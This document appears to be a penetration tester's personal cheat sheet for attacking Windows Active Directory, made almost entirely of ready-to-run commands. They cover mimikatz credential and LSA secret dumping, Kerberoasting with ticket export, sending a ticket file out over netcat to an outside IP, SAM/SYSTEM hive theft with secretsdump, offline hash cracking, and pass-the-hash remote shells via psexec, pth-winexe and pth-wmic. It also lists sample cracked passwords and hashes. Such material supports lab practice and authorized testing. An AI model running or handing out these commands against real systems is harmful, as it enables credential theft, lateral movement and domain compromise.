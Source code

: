 DC

token::elevate
token::elevate /domainadmin
\\$IP\share\mimikatz.exe "token::elevate" exit
\\$IP\share\mimikatz.exe "token::elevate /domainadmin" exit
\\$IP\share\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
proxychains impacket-psexec sandbox.local/Administrator@10.5.5.30
> passwords

##  OLD Mimikatz binary

-   https://github.com/allandev5959/mimikatz-2.1.1

### Password DUMP USING SPNs    [AD]

>	PS C:\Users\nathan\Desktop> .\GetUserSPNs.ps1
>	Add-Type -AssemblyName System.IdentityModel
>   PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "FRIENDS-DC/svc_backups.FRIENDS.local:1337"
>   klist
-   C:> mimikatz.exe
>   # kerberos::list /export  
-   c:\Users\temp>dir /x
-   c:\Users\temp>nc.exe 192.168.119.195 80 < 1-40A1~1.KIR
>   __# kirbi2john svc_backup.kirbi > hash

-   └─# hashcat -m 13100 sql_kirbi_2_hash /opt/rockyou.txt
>   __# john hash --wordlist=/opt/rockyou.txt
>   __# hashcat hash /opt/rockyou.txt

>   [svc_backup:Password9]
>   [8c802621d2e36fc074345dded890f3e5]  `[Now we have either password or hash, let's go for login or PTH]`


### Password DUMP USING SAM/SYSTEM

-   C:\>reg save HKLM\SAM C:\sam
-   C:\>reg save HKLM\SYSTEM C:\system
-   impacket-secretsdump 'FRIENDS/svc_backup:Password9@192.168.159.149' 
-   hashcat -m 1000 'ntlm' /opt/rockyou

### Password DUMP USING Cached Credentials  [AD]

[+] imapcket / powershell mimikatz

-   mimikatz.exe
-   privilege::debug
-   sekurlsa::logonpasswords
--------------------------------
-   sekurlsa::logonpasswords
-   privilege::debug sekurlsa::logonpasswords
-   lsadump::sam
-   token::elevate lsadump::sam
-   lsadump::secrets
-   token::elevate lsadump::secrets
-   vault::cred
---------------------------------



impacket-psexec sqlServer:shantewhite@10.11.1.121


impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.217.78

impacket-psexec xor.com/david:Password@123@10.11.1.120


└─# pth-winexe -U xor.com/david%aad3c435b514a4eeaad3b935b51304f:d4738e8c31d43e0147f27894a20e6683 //10.11.1.120 cmd.exe

└─# pth-winexe -U xor.com/david%aad3c435b514a4eeaad3b935b51304f:d4738e8c31d43e0147f27894a20e6683 //10.11.1.120 cmd

--# pth-wmic -U xor.com/david%aad3c435b514a4eeaad3b935b51304f:d4738e8c31d43e0147f27894a20e6683 //10.11.1.120 cmd
